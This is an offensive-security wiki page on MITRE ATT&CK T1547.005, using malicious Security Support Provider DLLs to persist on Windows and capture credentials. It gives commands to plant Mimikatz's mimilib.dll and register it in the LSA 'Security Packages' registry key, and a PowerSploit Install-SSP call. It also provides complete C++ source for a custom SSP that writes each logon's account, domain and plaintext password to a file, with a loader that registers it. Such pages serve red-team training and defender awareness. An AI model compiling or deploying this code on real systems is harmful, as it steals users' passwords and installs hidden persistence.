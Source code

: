 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Security Support Provider -
  Technique T1547.005
---
```


# Security Support Provider DLLs

## Theory

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

## Practice

{% hint style="danger" %}
We won't be able to make it work If [LSA protection (RunAsPPL)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry) is enabled. Loaded SSP DLLs will have to be signed by Microsoft as LSASS.exe will run as a [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process).
{% endhint %}

We may modify LSA Registry keys to add new SSPs which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called. The SSP configuration is stored in this two Registry keys:

* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`
* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages`.&#x20;

{% tabs %}
{% tab title="Mimikatz" %}
The [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases) project provides a DLL file (mimilib.dll) that can be used as a malicious SSP DLL that will log credentials in this file:

```powershell
C:\Windows\System32\kiwissp.log 
```

First, you will have to copy mimilib.dll in System32

```powershell
copy C:\Windows\Temp\mimilib.dll C:\Windows\System32\mimilib.dll
```

Then, edit LSA registry keys to include the new security support provider

```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://attack.mitre.org/software/S0194)'s `Install-SSP` Persistence module can be used to install a SSP DLL.

```powershell
Import-Module .\PowerSploit.psm1
Install-SSP -Path .\mimilib.dll
```
{% endtab %}

{% tab title="Custom DLL" %}
Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\lsa-pwned.txt`:

{% code title="sspcutsom.cpp" %}
```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSPCustom";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSPCustom <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\lsa-pwned.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```
{% endcode %}

Then, here is a code that loads the malicious SSP custom.dll:

{% code title="load_ssp.cpp" %}
```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\sspcutsom.dll", &spo);
	return 0;
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

### In-memory DLL injection - Credential Access

We may directly inject [SSP DLLs](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) into memory. It prevent us from editing registries but using this approach, it will not persist accross reboots.

{% content-ref url="../../../ad/movement/credentials/dumping/lsass/security-support-provider-dlls.md" %}
[security-support-provider-dlls.md](../../../ad/movement/credentials/dumping/lsass/security-support-provider-dlls.md)
{% endcontent-ref %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/005/" %}

{% embed url="https://pentestlab.blog/2019/10/21/persistence-security-support-provider/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package" %}
